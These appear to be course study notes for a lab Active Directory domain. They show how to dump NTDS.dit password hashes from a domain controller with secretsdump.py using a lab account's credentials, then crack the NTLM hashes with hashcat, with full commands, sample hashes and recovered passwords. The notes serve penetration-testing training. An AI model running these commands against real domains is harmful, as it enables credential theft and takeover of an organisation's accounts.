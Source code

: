 ---

## 🗃️ Dumping the NTDS.dit

### 📝 Summary

The **NTDS.dit** file is a critical database used by Active Directory (AD) to store sensitive data, including **user accounts, group information, security descriptors, and password hashes**. By extracting this file, you can access hashed passwords for domain users and attempt to crack them using tools like `secretsdump.py` and `hashcat`. This guide provides a step-by-step process for dumping the NTDS.dit, isolating NTLM hashes, and cracking them to uncover user passwords.

### 📋 Detailed Notes

1. **What is NTDS.dit?**
    - The **NTDS.dit** is the central database file for **Active Directory**. It stores:
        - **User information**
        - **Group memberships**
        - **Security descriptors**
        - **Password hashes**
    - The goal of dumping the NTDS.dit is to extract these password hashes for further analysis and cracking.
2. **Using `secretsdump.py` to Dump the NTDS.dit:**
    - Run the `secretsdump.py` command to extract the NTDS.dit file from the domain controller:
        
        ```bash
        secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.164.138
        
        ```
        
    - **Output Analysis:**
        - The command will display various pieces of information, including:
            - **Local SAM hashes**
            - **Domain cached logon information**
            - **LSA secrets**
            - **NTDS.dit secrets** (what we're primarily interested in)
        - **Sample Output:**
            
            ```bash
            Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            MARVEL.local\\tstark:1105:aad3b435b51404eeaad3b435b51404ee:fc22339b7c3bba9541a10f599b84188d:::
            
            ```
            
        - The part after the second colon (`:`) represents the **NTLM hash**, which we need to extract for password cracking.
3. **Extracting Only NTLM Hashes:**
    - Use the `just-dc-ntlm` flag with `secretsdump.py` to extract only the NTLM hashes:
        
        ```bash
        secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.164.138 -just-dc-ntlm
        
        ```
        
    - This filters the output, displaying only the essential NTLM hashes needed for cracking:
        
        ```
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
        MARVEL.local\\tstark:1105:aad3b435b51404eeaad3b435b51404ee:fc22339b7c3bba9541a10f599b84188d:::
        
        ```
        
    - **Key Insight:** Focus on extracting **NTLM hashes** and ignore LM hashes, as NTLM is the more secure representation of the user's password.
4. **Preparing for Cracking:**
    - Copy the NTLM hashes into a text file named `ntds.txt` for cracking. For example:
        
        ```
        Administrator: 920ae267e048417fcfe00f49ecbd4b33
        MARVEL.local\\tstark: fc22339b7c3bba9541a10f599b84188d
        
        ```
        
5. **Cracking NTLM Hashes with `hashcat`:**
    - Use `hashcat` to crack the NTLM hashes using a wordlist (e.g., `rockyou.txt`):
        
        ```bash
        hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt
        
        ```
        
    - To see the cracked passwords:
        
        ```bash
        hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt --show
        
        ```
        
    - **Sample Output:**
        
        ```
        920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!
        fc22339b7c3bba9541a10f599b84188d:IronMan123!
        
        ```
        
    - **Result:** You obtain a list of usernames with their corresponding passwords.
6. **End Results:**
    - The final output contains user credentials in plaintext, enabling further access within the domain:
        
        ```
        Administrator: P@$$w0rd!
        MARVEL.local\\tstark: IronMan123!
        
        ```
        

### 📖 Abbreviations & Definitions

- **NTDS.dit:** The database file used by Active Directory to store user accounts, group information, security descriptors, and password hashes.
- **NTLM Hash:** A cryptographic hash used to store Windows user passwords. More secure than the older LM hash, it's the main target for password cracking.
- **SAM Hash:** A hash stored in the Security Accounts Manager (SAM) file on a Windows system, representing local account passwords.
- **`secretsdump.py`:** A tool from the Impacket suite used to extract passwords, NTLM hashes, and other secrets from a Windows system.
- **`hashcat`:** A high-performance password recovery tool used to crack various types of hashes, including NTLM.

### 🚨 Critical Mentions & Exam Traps

- **🚨 Always Use the `just-dc-ntlm` Flag:** To focus on NTLM hashes, which are the target for cracking. Including other information can create unnecessary noise.
- **💡 Save the NTLM Hashes for Cracking:** Ensure you isolate only the NTLM part of the hash for use in `hashcat`.
- **🔄 Repeat the Cracking:** If initial cracking attempts fail, try different wordlists or attack modes in `hashcat` to maximize success.
- **⚠️ Exam Trap:** Do not overlook the format when saving hashes. The hash must be in the correct structure (i.e., username:hash) for `hashcat` to process correctly.

---